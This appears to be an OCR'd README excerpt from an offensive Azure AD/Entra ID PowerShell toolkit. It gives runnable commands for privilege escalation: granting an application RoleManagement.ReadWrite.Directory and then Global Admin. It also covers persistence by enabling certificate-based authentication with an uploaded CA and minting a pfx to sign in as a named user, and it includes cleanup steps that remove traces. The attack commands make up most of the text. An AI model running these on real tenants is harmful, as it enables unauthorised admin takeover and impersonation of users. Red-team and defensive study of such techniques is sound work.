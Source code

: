 #### Assign App Role (PE to admin user)

###### Permission: AppRoleAssignment.ReadWrite.All and Application.Read.All, AppRoleAssignment.ReadWrite.All and Directory.Read.All

Assign privileged application role (e.g., RoleManagement.ReadWrite.Directory) to target service principle  [[REF-Andy Robbins](https://posts.specterops.io/azure-privilege-escalation-via-azure-api-permissions-abuse-74aee1006f48)]

```powershell
# Assign "Sites.ReadWrite.All" to specific application to access all SharePoint Sites and OneDrive
Set-AAAAppRoleAssignments -AppId 'XXXX' -AppRoleId "9492366f-7969-46a4-8d15-ed1a20078fff"

# Assign "RoleManagement.ReadWrite.Directory" to specific application and assign Global Admin role to itself
$CurrentAppId = "XXXX"
$CurrentObjectId = (Get-AAAApplication -ServicePrinciple -AppId $CurrentAppId).id
$GlobalAdminTempalteId = "62e90394-69f5-4237-9190-012177145e10"
Set-AAAAppRoleAssignments -AppId $CurrentAppId -AppRoleId "9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8"
Set-AAADirectoryRoleMember -RoleTemplateId $GlobalAdminTempalteId -TargetObjectId $CurrentObjectId

# Clean up
Remove-AAAAppRoleAssignments -AppId "XXXX" -AssignId "XXXX"
Remove-AAADirectoryRoleMember -RoleTemplateId $GlobalAdminTempalteId -TargetObjectId $CurrentObjectId
```

#### Configure Certificate-based authentication (PE to admin user)

###### Permission for configuring authen method: Policy.ReadWrite.AuthenticationMethod

###### Permission for configuring cert-based authen:  Organization.ReadWrite.All

Configure Certificate-based authentication for organization [[REF-Andy Robbins](https://medium.com/specter-ops-posts/passwordless-persistence-and-privilege-escalation-in-azure-98a01310be3f)]

```powershell
# Enable cert-based authen method for organization
Set-AAAAutenMethod -CertAuth

# Generate and upload cert file
linux# ./AAAUserAuthCert.sh -g crt  
New-AAAUserAuthCert -CertFile ".\ca.crt"

# Generate pfx file to login as hagrid@XXX.onmicrosoft.com. Can install the pfx file locally for authen
linux# ./AAAUserAuthCert.sh -g pfx -u hagrid@XXX.onmicrosoft.com -s "/C=AU/ST=XX/L=XX/O=XXX/OU=IT/CN=hagrid@XXX.onmicrosoft.com"

# Clean up
Set-AAAAutenMethod -CertAuth -Disable
Remove-AAAUserAuthCert -issuerSki "XXXX"
```
